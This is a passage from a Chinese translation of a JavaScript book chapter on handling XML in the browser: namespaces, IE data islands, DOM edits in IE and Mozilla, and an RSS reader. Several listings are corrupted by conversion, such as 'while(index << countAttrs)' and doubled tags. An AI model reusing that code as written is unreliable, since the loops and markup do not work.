在前面的示例中，我们尝试使用 CSS 渲染 XML 文档，如果添加标题并更自由地使用换行符可能会更有用。你可以发明自己的 `<h1>` 和 `<br />` 标签，但当你有 XHTML 可用时，何必这样做呢？如果你使用 xmlns 属性，就可以轻松地使用现有的 XHTML 标签。考虑以下内容：

```
<directory xmlns:html="http://www.w3.org/1999/xhtml">

... 元素和文本 ...

</directory>
```

现在，在 directory 元素内，只要你使用我们指定的命名空间缩写 **html** 作为前缀，就可以自由地使用 XHTML 标签。例如：

```
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>

<?xml-stylesheet href="staff.css" type="text/css"?>


<directory xmlns:html="http://www.w3.org/1999/xhtml">

<html:h1>员工名录</html:h1>

<html:hr />

<employee>

<name>Fred Brown</name>

<title>Widget Washer</title>

<phone>(543) 555-1212</phone>

<email>fbrown@democompany.com</email>

</employee>

<html:br /><html:br />

...

</directory>
```

在这种情况下，你甚至可以为新使用的 XHTML 元素附加 CSS 规则，从而获得更美观的布局。

很明显，命名空间不仅仅是为了在 XML 文件中包含 XHTML 标记。此功能允许你在任何喜欢的 XML 文档中包含任何类型的标记。此外，确保每个标签都加上命名空间缩写作为前缀非常重要，尤其是在考虑到有多少人可能定义自己的 `<employee>` 标签时！

为了演示命名空间，让我们将 MathML 形式的 XML 包含到一个 XHTML 文件中。在支持 MathML 的 Mozilla 衍生浏览器中，该标记的呈现效果如图 20-7 所示。


```
<?xml version="1.0"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.1 plus MathML 2.0//EN"
  "http://www.w3.org/TR/MathML2/dtd/xhtml-math11-f.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en">
<head>
<title>MathML 演示</title>
</head>
<body>
<h1 style="text-align:center;">下面的 MathML</h1>
<hr />
<math mode="display" xmlns="http://www.w3.org/1998/Math/MathML">
<mrow>
<mfrac>
<mrow>
```

```
<mi>x</mi>

<mo>+</mo>

<msup>
    <mi>y</mi>
    <mn>2</mn>
</msup>

</mrow>

<mrow>
    <mi>k</mi>
    <mo>+</mo>
    <mn>1</mn>
</mrow>

</mfrac>

</mrow>

</math>

<hr />

</body>

</html>
```

> 注意 此示例要求文件命名为 .xml 或 .xhtml，以在 XHTML 上调用严格的 XML 解析器。

前面的示例应该表明，XHTML 在未来可能成为多种语言的宿主，或者它将被托管在各种其他基于 XML 的语言中。那么问题来了：XML 应该在 XHTML/HTML 内部，还是 XHTML 应该在 XML 内部？虽然考虑到已部署的 HTML 文档基础，W3C 可能倾向于 XML 托管 XHTML 标记，但标记作者可能更习惯于相反的方式。

### Internet Explorer XML 数据岛

由于常见的需求，或者在许多情况下是*需要*，将 XML 数据内容嵌入到 HTML 文档中，Microsoft 在 Internet Explorer 4 中引入了一个特殊的 `<xml>` 标签。`<xml>` 标签用于创建一个所谓的 XML 数据岛，用于存储可在文档中使用的 XML。想象一下，运行一个数据库查询，获取的数据比页面所需的更多，并将其放入 XML 数据岛中。然后你可以允许用户从数据岛中检索新信息，而无需返回服务器。要将 XML 包含在 (X)HTML 文档中，你可以使用 `<xml>` 标签，并将其内容直接封闭在其中，如下所示，

```
...HTML 内容...

<xml id="myIsland">
```

```
<directory>
  <employee>
    <name>Fred Brown</name>
    <title>Widget Washer</title>
    <phone>(543) 555-1212</phone>
    <email>fbrown@democompany.com</email>
  </employee>
</directory>
</xml>
...HTML 内容...
```

或者你可以通过指定其 URL 来引用外部文件：

```
<xml id="myIsland" src="staff.xml"></xml>
```

一旦 XML 包含在文档中，你就可以将 XML 绑定到 HTML 元素。在这个例子中，我们将 XML 数据绑定到一个表格。注意，你必须使用完全标准的表格标记，以避免重复出现标题：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
  "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>
  <title>员工名录</title>
  <meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
</head>

<body>
  <xml id="myIsland" src="staff.xml"></xml>
  <h1 align="center">DemoCompany 公司名录</h1>
  <hr/>
  <table width="100%" datasrc="#myIsland">
    <thead>
      <tr>
        <th>姓名</th>
        <th>职位</th>
      </tr>
    </thead>
  </table>
</body>
</html>
```


**注意** *此示例将无法验证，也无法在除 Internet Explorer 之外的其他浏览器中工作，因为 <<xml>> 标签是一个专有标签。*
该示例的输出符合预期，如图 20-8 所示。


**图 20-8：** 通过 IE 的数据绑定，您可以轻松地输出结构化数据。

一旦将数据绑定到文档中，您可以像前面的示例那样进行显示，甚至可以使用 JavaScript 操控内容。想象一下，将查询的完整结果发送到浏览器，然后允许用户对数据进行排序和分页，而无需返回服务器。将 XML 与 JavaScript 结合可以实现这一点，我们接下来将对此进行探讨。

> **注意** *前面的讨论绝非对 XML 及其相关技术的全面探讨，但足以让我们为那些不熟悉 XML 基础知识的读者提供必要的背景知识，以介绍一些将 XML 和 JavaScript 结合使用的方法。希望了解更多 XML 详细信息的读者可以参考 www.xml101.com 之类的网站，当然，还有 W3C XML 部分 (www.w3.org/XML)。*

### DOM 和 XML

现在，考虑到我们最终可以在浏览器中以可显示的格式呈现 XML，读者可能会想知道如何使用 XML 来操控文档。对于在服务器端使用 XSLT 转换的 XML，没有什么特别需要考虑的，因为输出将是 (X)HTML，因此我们将使用标准的 JavaScript 和 DOM 技术。但是，如果文档本身是作为 XML 交付的，您可能会想知道如何操控文档？希望您已经知道答案——使用 DOM！

正如第 10 章所讨论的，DOM 将文档表示为一个节点树，包括元素、文本数据、注释、CDATA 节等。这个树中的元素可以是 HTML 元素，正如我们到目前为止所看到的，也可以是 XML 元素，包括像 <<burger>> 或 <<employee>> 这样的标签。然后我们可以访问这些元素，查看它们，甚至修改它们的内容。

### Internet Explorer 示例

为了演示 JavaScript、XML 和 DOM 的实际应用，让我们使用 Internet Explorer 5.5 或更高版本来加载一个包含员工目录的 XML 文档，并看看我们是否可以对其进行操控。首先，为了加载文档，我们使用 JScript 特有的 **ActiveXObject** 创建 Microsoft XML 解析器的一个实例。一旦创建了对象，我们就可以将相应的 XML 文档加载到内存中。在本例中，它就是我们之前看到的纯 XML 格式的员工记录文件，没有样式表或其他引用。

```javascript
var xmldoc = new ActiveXObject("Microsoft.XMLDOM");

xmldoc.async = false;

xmldoc.load("staff2.xml");
```

加载完成后，我们就可以使用 DOM 来操控它了。例如，我们可以使用以下代码访问文档的根元素（<<**directory**>>）：

```javascript
var rootElement = xmldoc.documentElement;
```

然后，我们可以在示例中弹出它的 **nodeName** 属性。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"

 "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>XML Demo</title>

<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />

</head>

<body>

<script type="text/jscript">

<!--

var xmldoc = new ActiveXObject("Microsoft.XMLDOM");

xmldoc.async = false;

xmldoc.load("staff.xml");
```

```javascript
var rootElement = xmldoc.documentElement;

//-->
```

```html
</script>

<form action="#" method="get">

  <input type="button" value="show node"

  onclick="alert(rootElement.nodeName);" />

</form>

</body>

</html>
```

我们应该会看到


我们可以进一步使用我们在[第 10 章](#)中熟悉的 DOM 属性和方法。例如，考虑下面这个删除最后一个节点的函数：

```javascript
function deleteLastElement()
{
   var rootElement = xmldoc.documentElement;
   if (rootElement.hasChildNodes())
      rootElement.removeChild(rootElement.lastChild);
}
```

这里唯一的区别在于使用了我们创建的 **xmldoc** 对象来引用 XML 文档，而不是仅引用 HTML **Document** 对象的普通 **document**。否则，操作与 HTML 相同。

基于前面的示例，我们现在在 Internet Explorer 5.0 或更高版本下，演示一个关于从 XML 文件添加、删除和显示数据的简单示例。此示例的呈现效果如[图 20-9](#)所示。


**图 20-9：** 使用 JScript 和 DOM 直接操控的 XML 文档

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
  "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>XML Demo</title>

<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />

</head>

<body>

<script type="text/javascript">

<!--
/* 调用解析器并读入文档 */
var xmldoc = new ActiveXObject("Microsoft.XMLDOM");

xmldoc.async = false;

xmldoc.load("staff.xml");

function deleteLastElement()
{/* 查找根元素并删除其最后一个子节点 */

  var rootElement = xmldoc.documentElement;

  if (rootElement.hasChildNodes())
  rootElement.removeChild(rootElement.lastChild);

}

function addElement()
{

  var rootElement = xmldoc.documentElement;

  /* 创建 employee 元素*/
  var newEmployee = xmldoc.createElement('employee');

  /* 创建子元素和文本值，并逐个附加 */
  var newName = xmldoc.createElement('name');

  var newNameText = xmldoc.createTextNode(document.myform.namefield.value);

  newName.appendChild(newNameText);

  newEmployee.appendChild(newName);

  var newTitle = xmldoc.createElement('title');

  var newTitleText = xmldoc.createTextNode(document.myform.titlefield.value);

   newTitle.appendChild(newTitleText);

   newEmployee.appendChild(newTitle);

var newPhone = xmldoc.createElement('phone');

var newPhoneText = xmldoc.createTextNode(document.myform.phonefield.value);
    newPhone.appendChild(newPhoneText);
    newEmployee.appendChild(newPhone);

var newEmail = xmldoc.createElement('email');

var newEmailText = xmldoc.createTextNode(document.myform.emailfield.value);
newEmail.appendChild(newEmailText);

newEmployee.appendChild(newEmail);

/* 将完整的记录附加到文档 */
rootElement.appendChild(newEmployee);
}

function dump(string)
{
    var currentvalue=document.myform.showxml.value;
    currentvalue+=string;
    document.myform.showxml.value = currentvalue;
}

function display(node)
{
    var type = node.nodeType;
    if (type == 1)
    { // 开始标签
        dump("<<" + node.tagName);
// 输出属性（如果有）
attributes = node.attributes;
if (attributes)
{
    var countAttrs = attributes.length;
    var index = 0;
    while(index << countAttrs)
    {
        att = attributes[index];
        if (att)
            dump(" " + att.name + "=" + att.value);
        index++;
    }
}
// 递归输出子节点
if (node.hasChildNodes())
{
    // 结束标签
    dump(">\n");
    // 获取子节点
    var children = node.childNodes;
    var length = children.length;
    var count = 0;
    while(count << length)
    {
        child = children[count];
        display(child);
        count++;
    }
    }
    dump("<< /" + node.tagName + ">>\n");
    }
    else
        dump("/>\n");
    }
    else if (type == 3)
    { // 如果是文本节点，只输出文本
        dump(node.data+"\n");
    }
    }

//-->>
</script>

<form id="myform" name="myform" action="#" method="get">
<strong>XML 文档：</strong><br />
<textarea id="showxml" name="showxml" rows="10" cols="40"></textarea>
<br /><br /><br />
姓名: <input type="text" name="namefield" id="namefield" size="50" /><br />
职称: <input type="text" name="titlefield" id="titlefield" size="30" />
<br />
电话: <input type="text" name="phonefield" id="phonefield" size="20" />
<br />
邮箱: <input type="text" name="emailfield" id="emailfield" size="20" />
<br />
<input type="button" value="添加记录"
```


```
onclick="addElement();document.myform.showxml.value='';
display(xmldoc.documentElement);" />

<<input type="button" value="delete last record"
 onclick="deleteLastElement();document.myform.showxml.value='';
display(xmldoc.documentElement);" />

<<input type="button" value="redisplay XML document"
onclick="document.myform.showxml.value='';
display(xmldoc.documentElement);" />>
<<form>>

<<script type="text/javascript">>
<<!--
  /* show initial XML document */
  display(xmldoc.documentElement);
//-->>
<<script>>
<<body>>
<<html>>
```

如果你觉得手动将页面的XML项目输出到HTML表单字段有些繁琐，那么你的感觉是对的。微软提供了一种称为数据绑定的方法，将在本章稍后讨论，这种方法要简洁得多。这里这样做的目的是为了在操作过程中明确地展示XML标签。接下来的例子将更加直接地操作XML。

### Mozilla示例

在新兴标准的世界里，没有什么事情是简单的。基于Mozilla的浏览器处理XML的方式与Internet Explorer并不完全相同。为了使上一个例子兼容Mozilla，我们需要使用 **document.implementation.createDocument()** ，然后在将 **async** 属性设置为true或false并运行 **load()** 方法后加载文档，如下所示：

```
if (document.implementation&&document.implementation.createDocument)
       xmldoc=document.implementation.createDocument("","",null);
xmldoc.async = false;
```

```
xmldoc.load("staff.xml");
```

显然，通过使用 **if** 语句，我们可以让前面的例子在两个浏览器中都能工作。

```
if (window.ActiveXObject)
{
    var xmldoc=new ActiveXObject("Microsoft.XMLDOM");
}
else if (document.implementation&&document.implementation.createDocument)
{
    xmldoc=document.implementation.createDocument("","doc",null);
}

xmldoc.async = false;

xmldoc.load("staff.xml");
```

我们把将前面的例子修改为跨浏览器的任务留给读者。不过，请注意事实是：差异再次显现，因为Mozilla在DOM树中表示空白字符，并且最初不喜欢加载文档。只需点击提供的“重新显示XML文档”按钮即可。

虽然从前面的段落来看，Mozilla和IE似乎差别不大，但事实并非完全如此，因为Mozilla提供了直接使用XML并引入(X)HTML的可能性。IE可以处理类似的事情，但并不那么干净，正如我们将看到的那样。

在这个特定的例子中，我们将直接使用XML，而不是通过(X)HTML文档访问XML。因此，我们不需要特殊的 **XMLDocument** 对象；相反，我们就像预期的那样引用 **Document** 对象。例如，要打印根元素的 **nodeName** 属性，我们会使用

```
alert(document.documentElement.nodeName)
```

然而，我们需要将脚本引入XML文档，然后触发它。在XML中没有简单的方法可以做到这一点，所以我们依赖于(X)HTML标签，例如表单元素，如下一个例子所示。

```
<?xml version="1.0"?>

<?xml-stylesheet href="staff.css" type="text/css"?>

<directory xmlns:html="http://www.w3.org/1999/xhtml"
           xmlns:xlink="http://www.w3.org/1999/xlink">
  <employee>
    <name>Fred Brown</name>
    <title>Widget Washer</title>
    <phone>(543) 555-1212</phone>
    <email>fbrown@democompany.com</email>
  </employee>
  <html:form>
  </html:form>
</directory>
```

```
<<html:input type="button" id="test"
onclick="alert(document.documentElement.nodeName);" value="Show Root
Element"/>
</html:form>
</directory>>
```

像上一个Internet Explorer下的例子一样，这将只显示一个对话框，显示directory元素。奇怪的是，虽然你可以在Internet Explorer下让这个例子工作，但它会将 **<html>** 标签而不是 **<directory>** 标签显示为根元素！浏览器厂商的做法再次不同。在这种情况下，IE假定大多数事情都是HTML，无论它们是否指示，并构建一个DOM树来处理缺失的元素。我们可以设法绕过这个问题，但不会很干净。

如果我们能将脚本代码包含在文件中，采用我们前一节中更复杂的DOM示例并使其适应Mozilla是很容易的。我们将使用一个链接的脚本来实现这个技巧，使用另一个嵌入的(X)HTML标签，如 **<html:script src="xmldemo.js" />**。完整的例子如下所示。

#### 文件：mozillademo.xml

```
<?xml version="1.0"?>

<?xml-stylesheet href="staff.css" type="text/css"?>

<directory xmlns:html="http://www.w3.org/1999/xhtml"
        xmlns:xlink="http://www.w3.org/1999/xhtml">
```

```
<html:form id="myform" name="myform">
```

```
<html:label>Name: <html:input type="text" name="namefield" id="namefield"
size="50" /></html:label><html:br />
<html:label>Title: <html:input type="text" name="titlefield" id="titlefield"
size="30" /></html:label><html:br />
<html:label>Phone: <html:input type="text" name="phonefield" id="phonefield"
size="20" /></html:label><html:br />
<html:label>Email: <html:input type="text" name="emailfield" id="emailfield"
size="20" /></html:label><html:br />
```

```
<html:input type="button" value="add record" onclick="addElement()" />
<html:input type="button" value="delete last record"
onclick="deleteLastElement()" />

<html:hr />

</html:form>
```

```
<employee>
	<name>Fred Brown</name>
	<title>Widget Washer</title>
	<phone>(543) 555-1212</phone>
	<email>fbrown@democompany.com</email>
</employee>
```

```
<employee>
	<name>Cory Richards</name>
	<title>Toxic Waste Manager</title>
	<phone>(543) 555-1213</phone>
	<email>mrichards@democompany.com</email>
</employee>
```

```
<employee>
	<name>Tim Powell</name>
	<title>Big Boss</title>
	<phone>(543) 555-2222</phone>
	<email>tpowell@democompany.com</email>
</employee>
```

```
<employee>
	<name>Samantha Jones</name>
	<title>Sales Executive</title>
	<phone>(543) 555-5672</phone>
	<email>jones@democompany.com</email>
</employee>
```

```
<employee>
    <name>Eric Roberts</name>
    <title>Director of Technology</title>
    <phone>(543) 567-3456</phone>
    <email>eric@democompany.com</email>
</employee>
```

```
<employee>
    <name>Frank Li</name>
    <title>Marketing Manager</title>
    <phone>(123) 456-2222</phone>
    <email>fli@democompany.com</email>
</employee>
```

```
<html:script src="mozillaxmldemo.js" />
```

```
</directory>
```

#### 文件：mozillaxmldemo.js

```
function deleteLastElement()
{
    /* Get list of the employee elements */
    var employeeList = document.getElementsByTagName('employee');
```

```
if (employeeList.length > 0)
  { // find the last employee and delete it
    var toDelete = employeeList.item(employeeList.length-1);
    document.documentElement.removeChild(toDelete);
  }
else
  alert('No employee elements to delete');
}
```

```
function addElement()
{
    var rootElement = document.documentElement;

    var name = document.getElementById('namefield').value;
    var title = document.getElementById('titlefield').value;
    var phone = document.getElementById('phonefield').value;
    var email = document.getElementById('emailfield').value;

    /* create employee element*/
    var newEmployee = document.createElement('employee');

    /* create child elements and text values and append one by one */
    var newName = document.createElement('name');
    var newNameText = document.createTextNode(name);
    newName.appendChild(newNameText);
    newEmployee.appendChild(newName);
```

```
var newTitle = document.createElement('title');
var newTitleText = document.createTextNode(title);
newTitle.appendChild(newTitleText);
newEmployee.appendChild(newTitle);

var newPhone = document.createElement('phone');
var newPhoneText = document.createTextNode(phone);
newPhone.appendChild(newPhoneText);
newEmployee.appendChild(newPhone);

var newEmail = document.createElement('email');
var newEmailText = document.createTextNode(email);
newEmail.appendChild(newEmailText);
newEmployee.appendChild(newEmail);

/* append completed record to the document */
rootElement.appendChild(newEmployee);
}
```

图20-10展示了这个示例在Netscape 7下的渲染结果，其中也包含了之前使用的staff.css文件。


### 为 Internet Explorer XML 数据岛编写脚本

正如本章前面提到的，Microsoft Internet Explorer 提供了使用 <xml> 标签的数据岛功能，以便 XML 数据可以轻松嵌入到 (X)HTML 文档中。要操作数据岛中的 XML，我们只需通过其设置的 id 值（例如 myIsland）来访问元素的内容。我们可以使用 document.all[] 集合来访问该元素，并将其赋值给第一个与 IE 相关的 XML 示例中使用的标识符 xmldoc。现在我们可以像以前一样使用这个标识符。例如，要获取根节点，我们可以访问 xmldoc.documentElement。这里的添加/删除记录示例是最后一次使用数据绑定编写的。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
  "http://www.w3.org/TR/xhtml/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>Employee Directory using XML Data Islands</title>

<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />

</head>

<body>

<xml id="myIsland" src="staff.xml"></xml>

<h1 align="center">DemoCompany Directory</h1>

<hr />

<table width="100%" datasrc="#myIsland">

<thead>

    <tr>

        <th>Name</th>

        <th>Title</th>

        <th>Phone</th>

        <th>Email</th>

    </tr>

</thead>

<tbody>

    <tr>

        <td><span datafld="name"></span></td>

<td><span datafld="title"></span></td>
<td><span datafld="phone"></span></td>
<td><span datafld="email"></span></td>
</tr>
</tbody>
</table>

<script type="text/jscript">
<!--
/* associate the XML document from the data island */
xmldoc = myIsland;

function deleteLastElement()
{
    /* find root element and delete its last child */
    var rootElement = xmldoc.documentElement;
    if (rootElement.hasChildNodes())
        rootElement.removeChild(rootElement.lastChild);
}

function addElement()
{
    var rootElement = xmldoc.documentElement;

    /* create employee element*/
    var newEmployee = xmldoc.createElement('employee');

    /* create child elements and text values and append one by one */
var newName = xmldoc.createElement('name');
var newNameText = xmldoc.createTextNode(document.myform.namefield.value);
newName.appendChild(newNameText);
newEmployee.appendChild(newName);

var newTitle = xmldoc.createElement('title');
var newTitleText = xmldoc.createTextNode(document.myform.titlefield.value);
newTitle.appendChild(newTitleText);
newEmployee.appendChild(newTitle);

var newPhone = xmldoc.createElement('phone');
var newPhoneText = xmldoc.createTextNode(document.myform.phonefield.value);
newPhone.appendChild(newPhoneText);
newEmployee.appendChild(newPhone);

var newEmail = xmldoc.createElement('email');
var newEmailText = xmldoc.createTextNode(document.myform.emailfield.value);
newEmail.appendChild(newEmailText);
newEmployee.appendChild(newEmail);

/* append completed record to the document */
rootElement.appendChild(newEmployee);
}
//-->
</script>
<form action="#" method="get" id="myform" name="myform">

Name: <input type="text" name="namefield" id="namefield" size="50" /><br />

Title: <input type="text" name="titlefield" id="titlefield" size="30" />

<br />

Phone: <input type="text" name="phonefield" id="phonefield" size="20" />

<br />

Email: <input type="text" name="emailfield" id="emailfield" size="20" />

<br />

<input type="button" value="add record" onclick="addElement();" />

<input type="button" value="delete last record"

onclick="deleteLastElement();" />

</form>

</body>

</html>
```

除了数据岛之外，你会发现 Internet Explorer 拥有一套非常强大的工具来与 XML 文档交互，其中许多都基于 W3C 和 DOM 标准。你会遇到的一些对象包括 **XMLDOMDocument**、**XMLDOMNode**、**XMLDOMNodeList** 和 **XMLDOMNamedNodeMap** 等。如果你熟悉之前讨论过的 DOM，你基本上可以猜出这些对象的属性和方法会是什么。我们已经在第 10 章中介绍过它们。一如既往，请参阅微软的 MSDN 网站获取完整信息（msdn.microsoft.com）。

> **注意** *网上有大量关于在 Mozilla 中提供数据岛支持的文章，如果读者倾向于在公共网站上采用这种专有技术，可以查找相关资料。*

### 远程 XML

我们已经看到，通过一些努力，可以为 IE 和 Mozilla 的 XML 实现之间的各种差异编写包装器。然而，一旦涉及到远程访问，我们就会发现不仅面临着实现上的差异，还面临着安全上的差异。具体来说，虽然两个浏览器都同样乐于使用 **xmlDoc.load()** 加载本地 XML 文档，但你会发现远程文档由于各自假设的安全考虑而带来了不同的挑战。作为这方面的例子，我们探索一个用 JavaScript 实现的简单 RSS 阅读器。

### JavaScript 中的 RSS 阅读器

Really Simple Syndication（RSS）格式用于在网站之间交换新闻项目。许多在线期刊或博客都使用这种格式。RSS 格式在某种程度上是标准化的（http://feedvalidator.org/docs/rss2.html），尽管存在分歧和变体。不过，大致上 RSS 文件由 `<rss>` 根元素定义，该元素包含一个 `<channel>`，其中包含总体的 `<title>`、`<link>`、`<description>` 以及各种 `<item>` 标签。每个 `<item>` 又可以包含 `<title>`、`<link>` 和 `<description>`。这里展示了一个非常基础的 RSS 文件。

```xml
<?xml version="1.0" ?>

<rss version="2.0">

    <channel>

        <title>RSS Test</title>

        <link>http://www.javascriptref.com</link>

        <description>A fake feed description</description>

        <item>

            <title>A fake entry</title>

            <link>http://www.javascriptref.com</link>

            <description>Fun fun fun with RSS in this fake entry
description</description>

        </item>

    </channel>

</rss>
```

鉴于如此简单的格式，我们可以使用 JavaScript 从网站获取 RSS 文件，然后使用 DOM 筛选出各种标签，读取其内容，并创建 (X)HTML 元素显示在屏幕上。你可能会倾向于使用类似这样的代码

```javascript
if(window.ActiveXObject)

    var xmlDoc=new ActiveXObject("Microsoft.XMLDOM");

else

    if(document.implementation&&document.implementation.createDocument)
```


### 简易 JavaScript RSS 阅读器

**RSS 订阅源 URL：** `http://demos.javascriptref.com/newsfeed.xml`

- [Fritz 在哪里工作](http://demos.javascriptref.com/newsfeed.xml)
  了解一下 Fritz 现在就职的这家鲜为人知的搜索引擎公司。

- [JavaScript：权威参考 热销中](http://demos.javascriptref.com/newsfeed.xml)
  为什么人们会用"像热蛋糕一样热销"来形容某物，我们永远不得而知，但它确实如此热销。

- [PINT 又建了一个网站](http://demos.javascriptref.com/newsfeed.xml)
  意料之中……又一家网站开发公司建了一个网站。谁能想到呢？

- [微软将放弃 Windows 转而支持 Linux](http://demos.javascriptref.com/newsfeed.xml)
  比尔·盖茨疯了，放弃 Windows 转而支持 Linux。决定今天他要当一回 Linux 用户。愚人节快乐！

- [JavaScript 参考 在亚马逊排名第一](http://demos.javascriptref.com/newsfeed.xml)
  被选为奥普拉每月一书后，《JavaScript：权威参考》一路飙升至畅销书排行榜第一名。

#### 其他订阅源请尝试

- http://rss.news.yahoo.com/rss/topstories
- http://www.washingtonpost.com/wp-srv/topnews/rssheadlines.xml
- http://rss.pcworld.com/rss/latestnews.rss

```javascript
xmlDoc = document.implementation.createDocument("", "", null);

xmlDoc.async = false;

xmlDoc.load(RSSfeedURL);
```

然后适当地解析 RSS，并将其输出到屏幕上。这在 Internet Explorer 中可以正常工作，但 Mozilla 会很不满意，无法获取内容。为了探索跨平台解决方案，我们改用内置服务通过 HTTP 获取 XML。在 Internet Explorer 中，我们需要实例化 **XMLHTTP** 对象：

```javascript
request = new ActiveXObject("Msxml2.XMLHTTP");
```

在 Mozilla 中，我们可以创建类似的对象：

```javascript
request = new XMLHttpRequest();
```

创建对象后，我们可以创建并发送 HTTP 请求：

```javascript
request.open("GET", feedURL, false);

request.send(null);
```

收到响应后，我们可以解析各个部分。在这里，我们直接获取 XML 载荷本身。

```javascript
var feed = request.responseXML;
```

现在我们有了代表 RSS 文件的对象，只需使用 **getElementsByTagName()** 提取代表各个故事的标签，然后创建 (X)HTML 元素并将它们放入页面中。完整的新闻阅读器如下所示，渲染效果见图 20-11。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
 "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>JavaScript RSS Reader</title>
<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
<style type="text/css">
<!--
body {font-family:verdana,arial,helvetica,sans-serif; font-size:10pt;}
a {color:#003399;}
a:hover {color:#FF9900;}
#feedOutput {border-style: solid; border-width: 1px; width: 50%; background-
color: #FAFAD2; padding: 1em;}
-->
</style>
<script type="text/javascript">
<!--
function readRSS(feedURL)
{
    var request;

    /* Create XMLHttpRequest Object */
    try {
        request = new XMLHttpRequest();
    } catch (e) {  request = new ActiveXObject("Msxml2.XMLHTTP"); }

    try {
    // Needed for Mozilla if local file tries to access an http URL
    netscape.security.PrivilegeManager.enablePrivilege("UniversalBrowserRead");
    } catch (e) { /* ignore */ }

    request.open("GET", feedURL, false);
    request.send(null);

    var feed = request.responseXML;
    var itemList = feed.getElementsByTagName('item');
    var numItems = itemList.length;

    /* create HTML for the list of items */
    var newULTag = document.createElement('ul');

    for (var i = 0; i < numItems; i++)
    {
        /* create a new list item */
        var newLITag = document.createElement('li');

        /* get the Title of the item and its text */
        var itemTitle = itemList[i].getElementsByTagName('title');
        var newItemTitleTxt =
        document.createTextNode(itemTitle[0].firstChild.nodeValue);

        /* build a link to the item */
        var itemURL = itemList[i].getElementsByTagName('link');
        var newATag = document.createElement('a');
        newATag.href = itemURL[0].firstChild.nodeValue;
        newATag.appendChild(newItemTitleTxt);

        /* get the item's Description */
        var itemDescription = itemList[i].getElementsByTagName('description');
        var descriptionTxt = document.createTextNode(itemDescription[0].firstChild.nodeValue);
        var newPTag = document.createElement('p');
        newPTag.appendChild(descriptionTxt);

        /* build and append HTML */
        newLITag.appendChild(newATag);
        newLITag.appendChild(newPTag);
        newULTag.appendChild(newLITag);
    }

    /* output the final HTML of the RSS feed to the page */
    document.getElementById('feedOutput').appendChild(newULTag);
}
//-->
</script>
</head>
<body>
<h1 align="center">Simple JavaScript RSS Reader</h1>
<hr />
<form name="feedForm" id="feedForm" method="get" action="#">
 <b>RSS Feed URL:</b> <input type="text" name="feedURL"
value="http://demos.javascriptref.com/newsfeed.xml" size="50" />
<input type="button" value="Display"
onclick="readRSS(this.form.feedURL.value);" />
</form>
<div id="feedOutput">
    <br />
</div>

<h2>For other feeds try</h2>

<ul>
    <li>http://rss.news.yahoo.com/rss/topstories</li>
    <li>http://www.washingtonpost.com/wp-srv/topnews/rssheadlines.xml</li>
    <li>http://rss.pcworld.com/rss/latestnews.rss</li>
</ul>

</body>
</html>
```

如果你仔细研究上述示例，会发现使用了 **try/catch** 块来处理跨平台代码问题，同时也暗示了一些潜在的安全问题。特别是 Netscape，它会要求你授予访问远程站点的明确权限。

如果你考虑到远程 XML 访问的影响，这是有道理的。当你在 JavaScript 的前沿探索时，你会发现浏览器之间存在差异，例如安全策略，这些差异非常重要。接下来的几章会在这方面给你一些帮助，但一如既往，你应该非常谨慎，免得开发出只在你碰巧使用的浏览器中工作的代码。

### 总结

借助 JavaScript 和 DOM，你可以直接操作 XML 文档的内容。本章简要介绍了 XML，并展示了一些 Internet Explorer 和 Mozilla 如何实现 JavaScript-XML 交互的示例。不幸的是，我们再次看到这两种浏览器的操作方式非常不同。然而，即使不是这样，大多数开发者也尚未真正发掘出客户端操作 XML 文档的实际价值。有些人可能会质疑这样做的用处，因为存在重大漏洞以及低级浏览器对客户端 XML 操作支持的问题。由于这些问题，在本版撰写之时，大多数情况下 XML 文档都是在服务器端先进行转换，然后再传递到浏览器。希望在将来，直接查看和操作 XML 文档肯定会变得更加普遍，无论是通过微软 XML 数据岛、加载 XML 文件等专有功能实现，还是通过浏览器直接使用 XML。然而，就目前而言，鉴于新兴标准以及标记、样式和脚本之间 somewhat volatile 的混合，JavaScript 开发者可能首先需要充分掌握与 (X)HTML 相关的 DOM，然后再涉足与 XML 的交互。这样做的话，他们的经验将会很有帮助，因为无论使用何种标记语言，核心概念都是相似的。

# 第六部分：真实世界的 JavaScript

## 章节列表

- 第 21 章：浏览器特定扩展与注意事项
- 第 22 章：JavaScript 安全性
- 第 23 章：JavaScript 实践

## 第 21 章：浏览器特定扩展与注意事项

本书的大部分内容侧重于可以在多种浏览器中使用的特性，这些特性在某种程度上已经标准化，要么通过官方标准，要么通过广泛采用而事实标准化。在本章中，我们将转而了解特定浏览器的特性和特征。如果你工作的环境中浏览器一致性有保证，或者你希望为部分用户提供增强功能，那么了解这些特性会很有用。

### Internet Explorer

尽管浏览器人口统计数据因调查而异，差异很大，但有一项统计数据是明确的：微软 Internet Explorer 是当今部署最广泛的浏览器。微软实现了各种专有特性，其中大多数很少被使用。在本节中，我们介绍一些可能有用的历史背景，并介绍 IE 提供的一些更高级的专有特性。

#### JScript

